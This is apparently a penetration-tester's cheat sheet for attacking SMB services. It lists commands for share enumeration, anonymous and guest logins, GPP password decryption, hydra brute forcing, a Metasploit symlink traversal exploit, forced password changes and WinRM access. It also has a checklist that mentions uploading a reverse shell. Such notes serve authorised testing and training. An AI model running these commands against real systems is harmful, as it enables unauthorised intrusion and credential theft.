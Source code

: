 # 139,445 (SMB)

## Enumeration

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u '' -p ''
smbmap -H <IP> -u 'guest' -p ''
smbmap -R <share> -H <IP>  # List out directories and their contents
# Look for things like Groups.xml for AD
smbmap -R <share> -H <IP> -A Groups.xml -q  # Attempt to download file
# Locate cpasword= in Groups.xml and decrypt it
gpp-decrypt <cpassword>
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient -L //<IP>/ -U <username>
smbclient //<IP>/<SHARE>  # Connect to an available share

# Forcing Protol NT1
smbclient -L //<IP>/ --option='client min protocol=NT1'
smbclient //<IP>/<SHARE> --option='client min protocol=NT1'

```

#### Commands

```bash
dir /a
smb: \> mask "*"
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

### crackmapexec

```bash
crackmapexec smb <IP>
crackmapexec smb <IP> 'guest' -p ''
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --shares -u '' -p ''
crackmapexec smb <IP> --shares -u <username> -p <password>
crackmapexec smb <IP> --pass-pol
crackmapexec smb <IP> --users

crackmapexec winrm <IP> --shares -u <username> -p <password>  # Tell us if we can get on the machine
# Look for Pwn3d!
evil-winrm -i <IP> -u <username> -p <password>
```

### rpcclient

```bash
rpcclient <IP>
rpcclient -U ''
<TAB> <TAB>  # Show options when connected
> enumdomusers
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### samrdump

```bash
python3 /usr/share/doc/python3-impacket/examples/samrdump.py <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
hydra -l Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt <IP> smb -V -f
hydra -L usernames.txt -P passwords.txt <IP> smb -V -f
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.

### SMB Password Change

```bash
# Attempt to change a users password through SMB
smbpasswd -U <username> -r <IP>
# Then can use crackmapexec to test login
cme smb <IP> -u <username> -p <password>
cme winrm <IP> -u <username> -p <password>
```

### SMB Drive Mapping

```bash
sudo mount -t cifs -o 'user=<username>,password=<password>' //IP/Share /mnt/dir
# Go into /mnt/dir to look for interesting files
```
